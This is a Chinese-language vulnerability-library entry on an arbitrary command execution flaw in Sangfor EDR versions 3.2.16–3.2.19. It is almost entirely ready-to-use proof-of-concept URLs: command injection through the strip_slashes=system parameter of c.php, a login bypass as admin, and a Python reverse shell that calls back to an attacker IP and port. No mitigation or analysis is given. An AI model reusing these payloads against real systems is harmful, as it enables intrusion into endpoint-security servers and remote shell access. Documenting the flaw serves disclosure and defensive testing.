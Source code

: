 ```yaml
---
title: '深信服EDR任意命令执行漏洞.assets'
date: Fri, 04 Sep 2020 05:26:04 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞范围

EDR 3.2.16、3.2.17、3.2.19

### 漏洞POC

参数host/path/row/limit=命令 即可执行命令

```
https://*****/tool/log/c.php?strip_slashes=system&host=id
https://*****/tool/log/c.php?strip_slashes=system&path=id
https://*****/tool/log/c.php?strip_slashes=system&row=id
https://*****/tool/log/c.php?strip_slashes=system&limit=id
```



```bash
#越权登录
https://ip:xx/ui/login.php?user=admin   #(用户名必须存在)
#命令执行
https://xx.xx.xx.37/tool/log/c.php?strip_slashes=system&host=id
https://xx.xx.xx.37/tool/log/c.php?strip_slashes=system&host=whoami
#反弹shell
https://xx.xx.xx.37/tool/log/c.php?strip_slashes=system&path=python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('xx.xx.xx.105',1919));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

![img](深信服EDR任意命令执行漏洞.assets/17716535-3fce5fccf8781948.jpg)

1.jpg

![img](深信服EDR任意命令执行漏洞.assets/17716535-cebfc356f6d83985.jpg)

2.jpg

![img](深信服EDR任意命令执行漏洞.assets/17716535-6058fa3d680f982e.jpg)

3.jpg